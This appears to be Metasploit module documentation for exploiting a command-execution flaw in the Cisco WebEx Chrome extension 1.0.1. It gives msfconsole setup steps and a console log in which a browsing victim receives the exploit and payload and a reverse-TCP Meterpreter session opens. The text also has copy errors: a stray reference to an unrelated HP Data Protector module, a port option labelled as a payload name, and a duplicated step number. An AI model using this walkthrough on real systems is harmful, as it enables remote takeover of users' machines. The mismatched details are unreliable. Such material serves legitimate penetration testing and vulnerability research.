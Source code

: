 Cisco WebEx is a suite of applications for online meeting organization and video conferencing.
Included in this suite are extensions for popular web browsers which ease use and provide supplemental
features.

Version 1.0.1 of the WebEx extension for Google Chrome contains a vulnerability which allows an
attacker to execute arbitrary commands on a target, which can lead to arbitrary remote code execution.


## Vulnerable Application

Cisco WebEx Chrome Extension 1.0.1 is known to be affected.

## Verification Steps

**Using cisco_webex_ext**

After the encrypted communication is enabled, you are ready to use
hp_dataprotector_encrypted_comms. Here is what you do:

1. Start msfconsole
2. Do: ```use exploit/windows/misc/cisco_webex_ext```
3. Do: ```set SRVHOST [IP ADDRESS]```
4. Do: ```set SRVPORT [PAYLOAD NAME]```
5. Do: ```set URIPATH [ARBITRARY URI]```
6. Do: ```Choose a payload and set any specific options```
6. Do: ```run```, after a target browses to the generated URL, you should receive a session like the following:

```
msf > use exploits/windows/misc/cisco_webex_ext
msf exploit(cisco_webex_ext) > set srvhost 10.6.0.151
srvhost => 10.6.0.151
msf exploit(cisco_webex_ext) > set srvport 4567
srvport => 4567
msf exploit(cisco_webex_ext) > set uripath not_a_very_good_meeting
uripath => not_a_very_good_meeting
msf exploit(cisco_webex_ext) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.6.255.229:4444
[*] Using URL: https://10.6.0.151:4567/not_a_very_good_meeting
[*] Server started.
msf exploit(cisco_webex_ext) > [*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/cwcsf-nativemsg-iframe-43c85c0d-d633-af5e-c056-32dc7efc570b.html
[*] 10.6.0.151       cisco_webex_ext - From: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
[*] 10.6.0.151       cisco_webex_ext - Sending exploit html ...
[*] 10.6.0.151       cisco_webex_ext - Got request: /not_a_very_good_meeting/qt3iFe8N
[*] 10.6.0.151       cisco_webex_ext - From:
[*] 10.6.0.151       cisco_webex_ext - Sending payload ...
[*] Sending stage (957487 bytes) to 10.6.255.229
[*] Meterpreter session 1 opened (10.6.255.229:4444 -> 10.6.255.229:57472) at 2017-01-26 13:27:28 -0600

msf exploit(cisco_webex_ext) >
```

